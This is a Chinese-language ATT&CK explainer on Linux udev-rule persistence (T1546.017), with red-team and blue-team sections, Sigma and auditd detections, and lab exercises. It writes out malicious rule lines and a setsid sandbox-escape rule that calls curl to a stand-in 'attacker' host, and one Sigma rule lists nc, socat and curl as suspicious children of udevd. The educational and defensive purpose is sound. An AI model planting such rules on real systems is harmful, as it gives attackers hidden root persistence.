

# Udev 规则 (T1546.017)

## 一句话通俗理解

> **在 Linux 设备管理员的"事件登记本"里塞一行命令——只要系统碰到指定设备，恶意代码就以 root 身份自动跑起来**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者通过创建/修改 Linux udev 规则文件（位于 `/etc/udev/rules.d/` 等目录），在设备事件（add/change/remove）触发时执行任意命令 |
| 为什么危险？ | udev 守护进程 `systemd-udevd` 以 root 权限运行，且会在系统每次插入/识别设备时自动解析规则——攻击者只需等用户插个 U 盘就能触发 |
| 谁需要关心？ | Linux 系统管理员、SOC 分析师、容器与边缘设备安全负责人 |
| 你的第一步防御 | 监控 `/etc/udev/rules.d/`、`/run/udev/rules.d/`、`/usr/lib/udev/rules.d/` 下规则的创建与修改 |
| 如果只做一件事 | 对所有 udev 规则文件中的 `RUN+=` 与 `IMPORT` 键做白名单审计，任何指向非系统二进制的条目都值得调查 |

## 难度等级

⭐⭐⭐ 高级 - 需要理解 Linux 内核设备管理、systemd-udevd 沙箱模型与 udev 规则语法

## 前置知识检查

**读这个文件需要什么？**

- [ ] Linux 设备文件与 `/dev` 目录结构
- [ ] systemd-udevd 守护进程工作原理
- [ ] udev 规则语法（match keys + action keys）

## 技术描述

**Udev 规则**（T1546.017）是 **事件触发执行**（T1546）的一个具体变体，属于 **持久化** 阶段的攻击技术，同时可被用于 **权限提升**（TA0004）。

> 🔑 **打个比方**：就像给小区物业的"设备登记本"上加了一条暗号——"只要有人按了 4 楼的门铃，就自动开门让陌生人进电梯"——攻击者改的不是门铃本身，而是物业处理门铃事件时的"自动化动作清单"。

### 具体怎么理解？

Udev 是 Linux 内核的设备管理器（device manager），负责在设备被内核识别时，在 `/dev/` 下创建对应设备节点、加载固件、应用权限等。它通过 **规则文件**（rules files）来定义"当某类设备事件发生时执行什么操作"。规则文件由若干行组成，每行包含 **匹配键**（match keys，如 `SUBSYSTEM=="block"`、`ATTR{idVendor}=="0529"`）与 **动作键**（action keys，如 `RUN+="/path/to/script"`、`IMPORT{program}="cmd"`、`SYMLINK+="mydevice"`）。

合法的 udev 规则目录有三个，按优先级从高到低：

- `/etc/udev/rules.d/` — 管理员自定义规则（攻击者最常滥用）
- `/run/udev/rules.d/` — 运行时临时规则
- `/usr/lib/udev/rules.d/` 或 `/lib/udev/rules.d/` — 发行版默认规则

具备 root 权限的攻击者可以：

1. **新建规则文件**：在 `/etc/udev/rules.d/99-evil.rules` 中写入触发条件 + `RUN+=` 动作键
2. **修改现有规则**：在合法规则文件中追加恶意 `RUN+=` 行
3. **绑定伪设备**：使用 `KERNEL=="random"` 等总是匹配的条件，保证每次系统访问 `/dev/random` 等高频设备时都触发恶意代码
4. **绕过 systemd-udevd 沙箱**：systemd-udevd 默认对 `RUN+=` 调用的二进制施加沙箱限制（如 `PrivateNetwork=yes`、`ProtectSystem=strict`），攻击者可通过让 `RUN+=` 调用一个 `nohup` / `setsid` 包装器在后台分离执行，绕过沙箱的子进程限制

与父技术 T1546 相比，T1546.017 的核心特征是：**触发事件是"内核设备事件"**，属于内核到用户态的异步事件流，常规的文件完整性监控容易漏检，且触发条件可由攻击者任意定义（包括"系统启动时所有设备 add 事件"这种几乎必然触发的条件）。

### 为什么有效？

这种技术之所以有效，是因为：

1. **触发条件灵活**：从"插入 U 盘"到"读取随机数"都可被定义为触发条件，攻击者可挑选高频率事件保证持久化始终可用
2. **权限天然 root**：`systemd-udevd` 以 root 运行，`RUN+=` 调用的二进制继承 root 权限
3. **隐蔽性强**：合法系统通常有数百条 udev 规则，恶意规则混入其中难以肉眼发现
4. **重启存活**：规则文件持久化在磁盘上，系统重启后规则仍生效

**过渡段：** 不要以为持久化就是'写个 cron job'那么简单——攻击者有 50 种以上维持访问的方法，udev 规则是 Linux 上最隐蔽、最贴近内核的一种。

## 攻击流程

```
获取 root 权限 → 选择触发条件(伪设备/USB/网卡) → 编写恶意 udev 规则 → 投递到 /etc/udev/rules.d/ → 等待设备事件触发 → systemd-udevd 以 root 执行恶意二进制
```



**步骤详解：**

1. **获取 root 权限**
   - 通俗描述：写入 `/etc/udev/rules.d/` 必须是 root
   - 技术细节：通过漏洞利用、已有 root 后门、合法管理员账号被盗、容器逃逸等获得 root；`/etc/udev/rules.d/` 默认属主 root:root，权限 0755
   - 常用工具：漏洞利用链、`sudo` 滥用、`pkexec` 漏洞

2. **选择触发条件**
   - 通俗描述：决定什么时候让恶意代码跑起来
   - 技术细节：高频触发条件如 `KERNEL=="random"`（每次读 `/dev/random` 都匹配）、`SUBSYSTEM=="usb"`（USB 设备插入）、`ACTION=="add"`（任何设备 add 事件）；低频但隐蔽条件如特定 USB VendorID/ProductID、特定网卡 MAC
   - 常用工具：`udevadm info`、`lsusb`、`cat /sys/class/.../uevent`

3. **编写恶意 udev 规则**
   - 通俗描述：把恶意指令写进规则文件
   - 技术细节：典型格式 `KERNEL=="random", RUN+="/usr/local/bin/.evil"`；为绕过沙箱可用 `RUN+="/usr/bin/setsid /usr/local/bin/.evil &"` 让进程脱离 systemd-udevd 的 cgroup；可用 `IMPORT{program}="/usr/local/bin/.evil"` 在解析阶段执行
   - 常用工具：文本编辑器、`udevadm test`

4. **投递到 `/etc/udev/rules.d/`**
   - 通俗描述：把规则文件放到系统读取目录
   - 技术细节：常见文件名伪装 `99-system-local.rules`、`70-persistent-net.rules`（与合法规则同名混淆）；规则文件命名 `<number>-<name>.rules`，数字越小优先级越高
   - 常用工具：`scp`、`wget`、`echo > file`

5. **触发 udev reload**
   - 通俗描述：让 systemd-udevd 重新加载规则
   - 技术细节：`udevadm control --reload-rules && udevadm trigger`；也可等待系统重启自动加载；某些 systemd 版本会自动监视 rules.d 目录变更
   - 常用工具：`udevadm`

6. **等待设备事件触发**
   - 通俗描述：等用户插入设备或系统自然产生设备事件
   - 技术细节：使用 `KERNEL=="random"` 时，任何读取 `/dev/random` 的进程都会触发；系统启动时所有设备的"add"事件可被 `ACTION=="add"` 捕获；攻击者也可主动 `cat /dev/random` 自触发
   - 常用工具：`udevadm monitor`、`cat /dev/random`

7. **systemd-udevd 以 root 执行恶意二进制**
   - 通俗描述：守护进程按规则调用恶意脚本，落地持久化
   - 技术细节：恶意二进制可释放后续 payload 到 `/etc/cron.d/`、`/lib/systemd/system/`；可修改 `/etc/shadow` 添加后门账户；可直接回连 C2；为绕过 systemd-udevd 的 `PrivateNetwork=yes` 沙箱，需用 `setsid` / `nohup` 让恶意进程脱离 cgroup 后再联网
   - 常用工具：`setsid`、`nohup`、`curl` / `nc`

## 真实案例

### 案例 1：REPTILE Rootkit（S1219）

- **时间**: 2023-2024 年
- **目标**: 多个 Linux 服务器与边缘设备
- **攻击组织/软件**: REPTILE（S1219，公开可获取的 Linux rootkit 工具集，被多个 APT 组织改装使用）
- **手法**: REPTILE 利用 udev 规则实现持久化——在 `/etc/udev/rules.d/` 下写入规则文件，绑定特定设备事件，使得每次系统启动或访问特定伪设备时，rootkit 模块以 root 权限被加载并隐藏自身进程、文件、网络连接
- **影响**: 受感染主机长期隐蔽潜伏，常规 `ls` / `ps` / `netstat` 无法发现异常
- **参考链接**: [MITRE ATT&CK - REPTILE S1219](https://attack.mitre.org/software/S1219/)

### 案例 2：安全研究与红队实践

- **时间**: 2024-2025 年
- **目标**: 安全研究测试环境
- **攻击组织**: 红队 / 安全研究人员（包括贡献者 @grahamhelton3、@ch4ik0、@codexlynx 等）
- **手法**: 多名安全研究员公开演示 udev 规则持久化技术，编写检测规则与对抗沙箱的 PoC，验证了该技术在现代 systemd-udevd 沙箱下的可行性
- **影响**: 推动了 ATT&CK v19 将该技术正式收录为 T1546.017
- **参考链接**: [MITRE ATT&CK - Udev Rules T1546.017](https://attack.mitre.org/techniques/T1546/017/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先选择高频触发条件**：`KERNEL=="random"` 或 `KERNEL=="null"` 几乎每次系统启动都会被访问，保证持久化始终可用且触发延迟极低
2. **沙箱绕过是关键**：现代 systemd-udevd 默认 `PrivateNetwork=yes`、`ProtectSystem=strict`，直接 `RUN+=` 调用 C2 客户端会失败——必须用 `setsid` / `nohup` 让进程脱离 cgroup 后再联网
3. **规则文件命名伪装**：使用与合法规则同名的文件（如 `70-persistent-net.rules`）或低数字前缀（`00-local.rules`）混入
4. **结合内核模块隐藏**：与 LKM rootkit 配合，让 udev 规则文件本身也被隐藏，进一步对抗取证

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| udevadm | udev 规则测试与触发 | Linux | systemd 自带 |
| setsid / nohup | 脱离 systemd-udevd cgroup 绕过沙箱 | Linux | util-linux 自带 |
| Atomic Red Team | 检测规则测试 | 全平台 | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) |
| REPTILE | Linux rootkit 参考实现 | Linux | [MITRE ATT&CK S1219](https://attack.mitre.org/software/S1219/) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免 `udevadm monitor` 留下取证痕迹
- 不要在生产服务器上实验——错误的规则可能导致系统启动失败

## 蓝队视角

### 检测要点

1. **规则文件完整性监控**：对 `/etc/udev/rules.d/`、`/run/udev/rules.d/`、`/usr/lib/udev/rules.d/` 实施文件完整性监控（FIM）
2. **`RUN+=` / `IMPORT` 键审计**：白名单化所有 `RUN+=` 与 `IMPORT{program}=` 指向的二进制路径，任何非系统路径条目立即告警
3. **systemd-udevd 子进程关联**：监控 `systemd-udevd` 派生的非标准子进程（如 `bash`、`python`、`curl`、`nc`）

### 监控建议

- 部署 auditd 规则监控 `/etc/udev/rules.d/` 的写入
- 配置 SIEM 关联：udev 规则文件创建 → `systemd-udevd` 子进程创建 → 异常网络外联
- 对边缘设备（IoT / 网络设备 / 工控主机）特别关注，这些设备通常 udev 规则审计最薄弱

## 避坑指南

清理 udev 规则类持久化最容易犯的三个错误：

1. **只删规则不杀进程**：删除规则文件后，已被 `RUN+=` 触发并在后台 `setsid` 脱离的恶意进程仍会继续运行，必须按 PID/cgroup 主动终止
2. **忽略 `/run/udev/rules.d/`**：该目录是运行时规则，重启后消失——但在重启前已被加载的规则可能已激活恶意进程
3. **信任规则文件名**：攻击者常把恶意规则命名为 `70-persistent-net.rules` 等合法名，必须按内容（`RUN+=` 指向路径）审计，而非按文件名

## 检测建议

### 检测思路

检测 udev 规则滥用的关键是：**盯住规则文件变更 + `systemd-udevd` 子进程行为**。以下是三个层面的检测方法。

### 网络层检测

**方法**：监控 `systemd-udevd` 上下文中进程发起的异常外联（沙箱绕过后才会出现）。

```bash
# 检测 systemd-udevd 的子进程发起的网络连接
# 通过 ss + auditd 关联
auditctl -w /run/systemd/notify -p w -k udev_net
ss -tunap | grep -E "systemd-udevd|udevd"
```

### 主机层检测

**auditd 规则**：

```bash
# 监控 udev 规则目录变更
auditctl -w /etc/udev/rules.d/ -p wa -k udev_rules_change
auditctl -w /run/udev/rules.d/ -p wa -k udev_rules_change
auditctl -w /usr/lib/udev/rules.d/ -p wa -k udev_rules_change

# 查询告警
ausearch -k udev_rules_change | tail -20
```

**日志路径**：
- `/var/log/audit/audit.log`：auditd 日志
- `journalctl -u systemd-udevd`：udev 守护进程日志
- `/var/log/syslog`：系统日志

```bash
# 检测 systemd-udevd 派生可疑子进程
journalctl -u systemd-udevd --since "1 hour ago" | grep -iE "spawn|exec|fork"
```

### 应用层检测

**Sigma 规则示例**：

```yaml
title: 检测 udev 规则文件创建或修改
id: a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d
status: experimental
description: 检测 /etc/udev/rules.d/ 等目录的 udev 规则文件创建/修改行为，对齐 ATT&CK T1546.017
references:
    - https://attack.mitre.org/techniques/T1546/017/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: file_event
detection:
    selection:
        TargetFilename|contains:
            - '/etc/udev/rules.d/'
            - '/run/udev/rules.d/'
            - '/usr/lib/udev/rules.d/'
            - '/lib/udev/rules.d/'
        TargetFilename|endswith: '.rules'
    condition: selection
falsepositives:
    - 管理员合法添加设备规则
    - 发行版包管理器安装 udev 规则包
level: medium
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.017
```

```yaml
title: 检测 udev 规则中 RUN+= 调用可疑二进制
id: b2c3d4e5-f6a7-4b8c-9d0e-1f2a3b4c5d6e
status: experimental
description: 检测 udev 规则文件中 RUN+= 或 IMPORT 键指向非系统二进制的条目，对齐 ATT&CK T1546.017
references:
    - https://attack.mitre.org/techniques/T1546/017/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: file_write
detection:
    selection_rules:
        TargetFilename|endswith: '.rules'
    selection_pattern:
        - 'RUN+="/usr/local/'
        - 'RUN+="/tmp/'
        - 'RUN+="/home/'
        - 'RUN+="/var/tmp/'
        - 'RUN+="/dev/shm/'
        - 'IMPORT{program}="/usr/local/'
        - 'IMPORT{program}="/tmp/'
    condition: selection_rules and selection_pattern
falsepositives:
    - 合法第三方驱动安装脚本
level: high
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.017
```

```yaml
title: 检测 systemd-udevd 派生可疑子进程
id: c3d4e5f6-a7b8-4c9d-0e1f-2a3b4c5d6e7f
status: experimental
description: 检测 systemd-udevd 作为父进程派生非标准子进程的行为，对齐 ATT&CK T1546.017
references:
    - https://attack.mitre.org/techniques/T1546/017/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: process_creation
detection:
    selection_parent:
        ParentImage|endswith:
            - '/systemd-udevd'
            - '/udevd'
    selection_suspicious_child:
        Image|endswith:
            - '/bash'
            - '/sh'
            - '/python'
            - '/python3'
            - '/curl'
            - '/wget'
            - '/nc'
            - '/ncat'
            - '/socat'
            - '/setsid'
    condition: selection_parent and selection_suspicious_child
falsepositives:
    - 合法固件加载脚本（少见，通常为内置二进制而非 shell）
level: high
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.017
```

### ATT&CK 检测映射

| 数据源 / 分析 | 编号 | 说明 |
| -------------- | ---- | ---- |
| udev 规则文件监控 | DET0375 | 监控 udev 规则目录的文件创建/修改 |
| udev 规则文件创建/修改与可疑 RUN+=/IMPORT 键检测 | AN1056 | 关联规则内容变更与可疑二进制调用，关联 systemd-udevd 子进程执行 |

## 缓解措施

> ⚠️ **MITRE 官方标注**：该子技术"**无法通过预防性控制轻松缓解**"（This technique cannot be easily mitigated with preventive controls），因为 udev 规则是 Linux 设备管理的核心合法机制，禁用会导致系统无法识别设备。

### 原因说明

- udev 规则文件由 `systemd-udevd` 在系统启动早期加载，禁用会导致所有设备节点创建失败，系统无法启动
- `RUN+=` 是 udev 规则的合法动作键，被大量合法驱动安装脚本使用，难以白名单完全覆盖

### 深度防御建议（替代缓解）

#### 优先级 1：关键措施

**规则文件完整性监控**

```bash
# 用 AIDE 基线化 udev 规则目录
echo '/etc/udev/rules.d/ R' >> /etc/aide/aide.conf
echo '/usr/lib/udev/rules.d/ R' >> /etc/aide/aide.conf
echo '/run/udev/rules.d/ R' >> /etc/aide/aide.conf
aide --init && cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db
# 定期校验
aide --check
```

**最小权限约束**：限制 root 账号访问，启用 `sudo` 审计，避免普通用户获得 root 后能写 udev 规则。

#### 优先级 2：重要措施

**`RUN+=` 路径白名单**：用脚本定期扫描所有 `.rules` 文件中的 `RUN+=` / `IMPORT{program}=` 路径，与系统白名单比对。

```bash
# 扫描所有 udev 规则中的 RUN+= 路径
grep -rhE 'RUN\+="[^"]*"|IMPORT\{program\}="[^"]*"' \
    /etc/udev/rules.d/ /usr/lib/udev/rules.d/ /run/udev/rules.d/ 2>/dev/null | \
    sort -u
```

**systemd-udevd 沙箱加固**：在 `systemd-udevd.service` 单元文件中强化沙箱参数（`ProtectKernelModules=yes`、`RestrictRealtime=yes`），增加沙箱绕过难度。

#### 优先级 3：建议措施

**容器化关键服务**：将关键业务迁入容器，容器内无 udev 守护进程，从根本上消除该攻击面。

**审计启用**：开启 auditd 对 udev 规则目录的写入监控，长期归档审计日志。

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验 1：理解 udev 规则触发机制（初级）

**目标**：理解 udev 规则匹配与执行时机

**步骤**：
1. 在隔离 Linux 虚拟机中创建 `/etc/udev/rules.d/99-test.rules`
2. 写入 `KERNEL=="null", RUN+="/bin/sh -c 'echo triggered >> /tmp/udev_test.log'"`
3. 执行 `udevadm control --reload && udevadm trigger`
4. 执行 `cat /dev/null`，观察 `/tmp/udev_test.log` 内容

**学习要点**：理解 `KERNEL==` 匹配条件与 `RUN+=` 动作键的执行时机

### 实验 2：模拟沙箱绕过（中级）

**目标**：理解 systemd-udevd 沙箱限制及绕过方法

**步骤**：
1. 构造一个 `RUN+=` 直接调用 `curl http://attacker/` 的规则，验证沙箱是否阻止网络
2. 改用 `RUN+="/usr/bin/setsid /usr/bin/curl http://attacker/ &"` 让进程脱离 cgroup
3. 再次触发，验证网络是否成功外联

**学习要点**：掌握 systemd-udevd 沙箱模型与 `setsid` 绕过技术

### 实验 3：检测规则验证（高级）

**目标**：验证 Sigma / auditd 检测规则是否能捕获本子技术

**步骤**：
1. 部署本文件"检测建议"章节的 auditd 规则与 Sigma 规则
2. 在受控主机执行实验 1 + 实验 2 的攻击模拟
3. 验证 `ausearch -k udev_rules_change` 是否产生告警，并测试 SIEM 关联规则

**学习要点**：理解攻防对抗的实际效果与规则调优方向

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **Udev 规则** | T1546.017，通过修改 Linux udev 规则文件触发恶意代码执行的子技术 |
| **事件触发执行** | T1546，Udev 规则所属的父技术类别 |
| **udev** | Linux 内核的设备管理器，负责在设备被识别时创建 `/dev/` 节点并执行规则 |
| **systemd-udevd** | udev 守护进程，以 root 权限运行，负责解析规则并执行 `RUN+=` 动作 |
| **匹配键 (match key)** | udev 规则中 `KERNEL==`、`SUBSYSTEM==`、`ATTR==` 等用于匹配设备事件的键 |
| **动作键 (action key)** | udev 规则中 `RUN+=`、`IMPORT=`、`SYMLINK+=` 等用于指定动作的键 |
| **沙箱绕过** | 通过 `setsid` / `nohup` 等让恶意进程脱离 systemd-udevd 的 cgroup 限制 |
| **持久化** | 攻击链中的一个阶段，攻击者在这个阶段维持对系统的长期访问 |
| **C2** | 命令与控制，攻击者用来远程控制被入侵系统的"遥控器" |
| **EDR** | 端点检测与响应，部署在电脑上的安全监控软件 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1546 - 事件触发执行](../T1546-Event-Triggered-Execution.md)
- [T1546 - 事件触发执行](../T1546-Event-Triggered-Execution.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Udev Rules (T1546.017)](https://attack.mitre.org/techniques/T1546/017/)
- [MITRE ATT&CK - Event Triggered Execution (T1546)](https://attack.mitre.org/techniques/T1546/)
- [MITRE ATT&CK - REPTILE (S1219)](https://attack.mitre.org/software/S1219/)

### 📰 安全报告（真实攻击）

- [systemd-udevd 官方文档](https://www.freedesktop.org/software/systemd/man/udevd.service.html) - udev 守护进程机制
- [udev 规则编写指南](https://reactivated.net/writing_udev_rules.html) - udev 规则语法权威教程
- [MITRE ATT&CK 官方文档](https://attack.mitre.org/) - ATT&CK 框架官方资源

### 🔧 工具与资源（动手试试）

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具
- [udevadm man page](https://man7.org/linux/man-pages/man8/udevadm.8.html) - udev 管理工具手册
- [AIDE](https://aide.github.io/) - 文件完整性监控工具

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Linux Kernel udev 文档](https://www.kernel.org/doc/html/latest/admin-guide/devices.html) - 内核设备管理
- [systemd 沙箱参数参考](https://www.freedesktop.org/software/systemd/man/systemd.exec.html) - systemd-udevd 沙箱配置
